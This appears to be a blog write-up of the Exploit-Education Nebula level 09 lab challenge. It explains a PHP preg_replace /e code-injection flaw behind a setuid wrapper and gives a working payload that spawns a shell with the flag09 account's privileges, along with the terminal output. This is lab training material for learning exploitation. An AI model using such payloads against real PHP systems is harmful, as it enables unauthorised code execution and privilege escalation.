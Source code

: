 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 09"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---   
```

### [Exploit Education Level 9](https://exploit.education/nebula/level-09/)

## Challenge
There is a C setuid wrapper for some vulnerable PHP code.  
To do this level, log in as the `level09` account with the password `level09`. Files for this level can be found in `/home/flag09`.  
Taking a look at the code,it is possible to identify some calls to the preg_replace, whose function is to replace content in a
string based on a regular expression. The first preg_replace will basically replace all the “.” by “dot” and all the “@” by “AT”. 
The last two preg_replace will replace the square brackets by the angle quotes.

If you feed some file to this program, `flag09` will analyze and replace all `“@”` and `“.”` symbols. At the end, will print to the command line the entire file sanitized.

For example, the following image contains the output of running flag09 with some file containing `“[abc@gmail.com]”`.
```bash
level09@nebula:~$ /home/flag09/flag09 arg
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
abc AT gmail dot com
```
## Vulnerability
The vulnerability is in the following line
```php
$contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
```
In order to get a shell, we can place in the file `“[email {${system(sh)}}]”` instead of the last string.
This because `PHP` will try to evaluate the expression due to the `/e` tag  
[PHP preg_replace Vulnerability](https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace)  
```bash
level09@nebula:~$ /home/flag09/flag09 arg2
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
PHP Notice:  Use of undefined constant sh - assumed 'sh' in /home/flag09/flag09.php(15) : regexp code on line 1
sh-4.2$ id
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
### Solved!